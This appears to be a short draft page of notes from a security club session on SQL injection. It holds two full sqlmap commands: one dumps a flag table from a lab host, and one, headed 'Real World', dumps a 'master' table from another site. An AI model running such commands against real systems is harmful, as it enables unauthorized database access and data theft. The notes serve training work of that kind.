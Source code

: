 ```yaml
---
title: "20231119 AIS3 Club"
date: 2023-11-21T02:06:59+08:00
draft: true
---
```


## Union Select
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns -C secret_flag --dump
```


## PHP code 


## Real World
```bash
sqlmap https://target.entroy.tk/service_open.php?id=20 -p id --level 5 --risk 3 --batch --random-agent --technique BU -dbs -D tongyi --tables -T master --columns --dump
```
